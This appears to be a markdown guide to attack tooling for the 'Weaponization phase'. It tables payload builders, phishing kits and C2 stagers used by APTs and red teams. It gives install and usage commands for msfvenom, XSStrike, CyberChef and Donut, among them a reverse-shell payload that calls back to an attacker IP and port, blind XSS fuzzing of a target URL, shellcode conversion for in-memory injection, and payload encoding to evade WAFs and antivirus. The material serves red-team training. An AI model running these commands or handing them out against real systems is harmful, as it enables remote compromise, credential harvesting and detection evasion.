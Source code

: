 Below are essential tools used by APTs, red teams, and real-world attackers for crafting and delivering tailored payloads in the Weaponization phase.

## 🧰 Common Tool Categories in Weaponization (APT & Red Teams)

| Category                   | Tools                                                                             | Use                                                |
| -------------------------- | --------------------------------------------------------------------------------- | -------------------------------------------------- |
| **Payload Builders**       | msfvenom, Shellter, Unicorn, Veil, Donut                                | Create shellcode, EXE/DLL, HTA, macro, JS payloads |
| **Web Payload Generators** | XSStrike, DalFox, SQLMap, Arjun, Commix, HackBar                      | Create context-aware payloads for XSS, SQLi, etc.  |
| **Encoder/Obfuscators**    | CyberChef, obfuscate.py, Burp Encoder, jsfuck, Unicode Bypass Generator | Hide payloads from WAFs, AV                        |
| **Droppers/Phish Kits**    | Evilginx, Blackeye, Modlishka, BeEF                                       | Crafting credential harvesters / browser exploits  |
| **Malware Stagers**        | Empire, Covenant, Cobalt Strike                        | Host or stage payloads via redirectors             |
| **Wordlists/References**   | PayloadsAllTheThings, SecLists, FuzzDB                                      | Community payloads for fuzzing and injection       |
| **Script Chaining Tools**  | Bash/Python + curl, jq, etc.                                                      | Automate multistep weaponization logic             |


## ⚙️ Advanced Tool Installation & Usage – Weaponization Phase

Below are essential tools used by APTs, red teams, and real-world attackers for crafting and delivering tailored payloads in the Weaponization phase.

1. MSFVenom (Metasploit Payload Generator)

- **Use**: Generate shellcode and payloads (Windows, Linux, PHP, etc.).

- Install
  ```bash
  sudo apt update
  sudo apt install metasploit-framework

- Usage
  ```bash
  msfvenom -p python/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f raw

- Flags:
  
     -p – Payload type (e.g., windows/meterpreter/reverse_tcp)

    LHOST/LPORT – Attacker IP and port for the callback

     -f – Output format (raw, exe, elf, php, etc.)


2. XSStrike (XSS Payload Generator)

- **Use**: Fuzz and weaponize XSS payloads (reflected, DOM, stored).
- Install
  ```bash
  sudo apt update
  git clone https://github.com/s0md3v/XSStrike.git
  cd XSStrike
  pip3 install -r requirements.txt

- Usage
  ```bash
  python3 xsstrike.py -u "https://target.com/search.php?q=FUZZ" --fuzzer --blind

- Flags:
  
     --fuzzer – Automatic input fuzzing

     --blind – Blind XSS payloads

     --crawl – Crawl site for inputs


3. CyberChef

- **Use**: Encode, decode, obfuscate, and transform payloads.
- Use Online (NO Install)
    https://gchq.github.io/CyberChef/
- Use Cases:
  
     Encode XSS payloads in Unicode:
      alert('XSS') → \u0061\u006c\u0065\u0072\u0074

    Create chained transformations:
      Input → URL Encode → Base64 → Reverse → Output

4. Donut (Shellcode Generator for .NET, EXE, DLL)

- **Use**: Convert Windows executables into shellcode for in-memory injection.
- Install
  ```bash
  sudo apt update
  git clone https://github.com/TheWover/donut.git
  cd donut
  
- Generate Shellcode
  ```bash
  ./donut loader.exe
- Output will be base64-encoded shellcode.

## Note : Not all tools and payload types can be documented in a single guide. Choose tools based on target technology, attack goals, and stealth requirements.

